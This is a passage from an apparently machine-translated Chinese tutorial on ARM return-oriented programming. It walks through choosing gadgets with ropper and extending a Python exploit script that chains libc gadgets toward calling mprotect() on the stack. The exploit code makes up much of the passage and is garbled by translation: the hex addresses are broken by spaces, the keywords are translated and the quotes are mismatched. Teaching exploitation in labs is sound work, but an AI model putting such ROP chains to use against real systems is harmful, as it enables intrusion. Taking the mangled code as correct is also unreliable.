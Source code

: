 *所有小工具都已添加。现在让我们试着解决我们的问题*

*首先，我们需要解决分支问题。要解决这个问题，我们需要控制 r3，以便它将分支到我们控制的节点。所以让我们找一个小工具来帮助我们控制 r3*

*![](img/44c72dd665e983c655c25cbe1f1a24cd.png)*

> *0x00019270: pop {r3，PC }；*

*这是有史以来最简单的小工具！！！！！！。所以这会弹出一些东西给 r3 和 pc。下一个问题是我们在 r3 里放什么。有什么猜测吗？*

*在这里，我们可以在 r3 中放一些东西，这样它就不会改变其他寄存器的值，也不会弄乱流程。这可以借助简单的“ *pop {pc}”指令来实现。*让我们再次使用 ropper 找到这个小工具*

*![](img/9220e17dc9f6376a810273e4b0078c08.png)*

> *0x0002df80: pop {r7，PC }；*

*这是唯一一个简单的指令，没有太多的复杂性，因为 r7 对我们来说是一个无用的寄存器，我们不关心 r7 中的值。*

*现在是时候修改我们的漏洞脚本了。*

*现在你会考虑在哪里插入这些新的小工具，你可以在最后一条指令之前的任何地方添加这些小工具，因为这不会影响我们的执行流程，因为它们把对 pc 的控制权还给我们了。我将在第二个小工具之后插入这些新小工具(pop {r0，r4，PC }；)*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base_libc + 0x00019270) # pop {r3，PC }；#新增 gadget
> exp+= struct . pack("<I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(“AAAA”)
> exp+=下一条指令*

*所以我们添加了这个小工具，这将解决我们的分支问题，并把控制权还给我们。*

*让我们进入下一个问题。如你所知，我们利用 r0 将值 7 复制到 r2。因此，这将 r0 的值更改为 7，但我们需要 r0 的值作为堆栈的地址，以便我们可以成功调用 mprotect()函数。*
